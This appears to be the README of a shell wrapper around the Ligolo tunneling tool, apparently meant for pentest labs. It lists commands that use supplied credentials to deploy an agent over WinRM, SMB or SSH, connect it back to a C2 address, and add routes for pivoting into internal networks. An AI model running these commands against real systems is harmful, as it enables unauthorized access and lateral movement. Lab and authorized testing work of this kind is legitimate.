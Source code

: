 # Ligolo UwU v2

All-in-One Ligolo Manager with direct upload method.

## Quick Start

```bash
# Install globally
./ligolo-uwu.sh install

# Download binaries
ligolo-uwu download

# Start proxy
ligolo-uwu proxy 443

# Add target and deploy
ligolo-uwu add WIN01 <ip> <user> <pass> <c2_ip> 443 winrm

# Add route
ligolo-uwu route 172.16.70.0
```

## Syntax

### Installation
```bash
ligolo-uwu install                    # Install globally to /opt
ligolo-uwu clean                      # Clean up all lab files
ligolo-uwu clean --uninstall          # Clean up and uninstall
```

### Proxy Management
```bash
ligolo-uwu proxy <port> [interface]   # Start proxy server
ligolo-uwu download                   # Download latest binaries
```

### Route Management
```bash
ligolo-uwu route <network>            # Add route to ligolo interface
ligolo-uwu route-del <network>        # Remove route from ligolo interface
ligolo-uwu routes                     # List all ligolo routes
```

### Agent Deployment
```bash
ligolo-uwu agent <target_name>        # Deploy to saved target
ligolo-uwu <ip> <user> <pass> <c2_ip> <c2_port> <protocol> [--local-auth] [--debug]
```

### Target Management
```bash
ligolo-uwu add <name> <ip> <user> <pass> <c2_ip> <c2_port> <protocol> [--local-auth]
ligolo-uwu list                       # List saved targets
ligolo-uwu remove <target_name>       # Remove saved target
```

## Protocols
- `ssh` - Linux targets
- `winrm` - Windows targets (PowerShell)
- `smb` - Windows targets (cmd.exe)

## Flags
- `--local-auth` - Use local authentication (winrm/smb)
- `--debug` - Enable debug output

## Examples

```bash
# Windows targets
ligolo-uwu add WIN01 192.168.1.100 administrator 'Password1' 10.10.14.21 443 winrm
ligolo-uwu add WIN02 192.168.1.100 administrator 'Password1' 10.10.14.21 443 winrm --local-auth
ligolo-uwu add WIN03 192.168.1.100 user 'Pass123!' 10.10.14.21 443 smb

# Linux targets
ligolo-uwu add LINUX01 10.10.110.25 root 'toor' 10.10.14.21 443 ssh

# Quick deploy
ligolo-uwu 192.168.1.100 admin 'pass123' 10.10.14.21 443 winrm --debug

# Routes
ligolo-uwu route 172.16.70.0          # Add /24 route
ligolo-uwu route 10.10.10.0/16        # Custom CIDR
ligolo-uwu routes                     # List routes
ligolo-uwu route-del 172.16.70.0      # Remove route

# Deploy to saved target
ligolo-uwu agent WIN01

# Clean up lab
ligolo-uwu clean
```
